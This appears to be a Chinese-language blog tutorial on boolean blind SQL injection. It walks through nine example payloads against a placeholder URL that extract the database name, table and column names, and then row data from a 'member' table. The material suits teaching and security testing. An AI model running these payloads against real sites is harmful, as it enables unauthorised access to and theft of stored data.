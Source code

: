```yaml
---
title: 布尔盲注
description: SQL注入是一种是一种常见的网络安全漏洞攻击手段。
pubDate: 07 30 2025
draft: true
categories:
- 网络安全
tags:
- SQL注入
- Web安全
- Kaku
---
```


# 布尔盲注

布尔盲注，与普通注入的区别在于“盲注”。在注入语句后，盲注不是返回查询到的结果，而只是返回查询是否成功，**即：返回查询语句的布尔值**。因此，盲注要盲猜试错。由于只有返回的布尔值，往往查询非常复杂，一般使用脚本来穷举试错。

例如一个网址[http://abc.cn/new_list.php?id=1，当我们修改id=2的时候界面会出错，这里就很可能是注入点，我们可以运用sqlmap进行注入爆破，具体爆破过程已经相关sql示例为：

1. 爆库名长度
   
   ```sql
   http://abc.cn/new_list.php?id=1 and length(database())=10
   ```

2. 根据库名长度爆库名
   
   ```sql
   http://abc.cn/new_list.php?id=1 and substr(database(),1,1)='s'
   ```

3. 对当前库爆表数量
   
   ```sql
   http://abc.cn/new_list.php?id=1 and (select COUNT(*) from information_schema.tables where table_schema=database())=2
   ```

4. 根据库名和表数量爆表名长度
   
   ```sql
   http://abc.cn/new_list.php?id=1 and length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=6
   ```

5. 根据表名长度爆表名
   
   ```sql
   http://abc.cn/new_list.php?id=1 and substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)='m'
   ```

6. 对表爆列数量
   
   ```sql
   http://abc.cn/new_list.php?id=1 and (select count(column_name) from information_schema.columns where table_schema=database() and table_name='member')=3
   ```

7. 根据表名和列数量爆列名长度
   
   ```sql
   http://abc.cn/new_list.php?id=1 and length(substr((select column_name from information_schema.columns where table_schema=database() and table_name= 'member' limit 0,1),1))=4
   ```

8. 根据列名长度爆列名
   
   ```sql
   http://abc.cn/new_list.php?id=1 and substr((select column_name from information_schema.columns where table_schema=database() and table_name='member' limit 1,1),1,1)='n'
   ```

9. 根据列名爆数据值
   
   ```sql
   http://abc.cn/new_list.php?id=1 and (select substr(name,1,1) from stormgroup.member limit 0,1)='m'
   ```
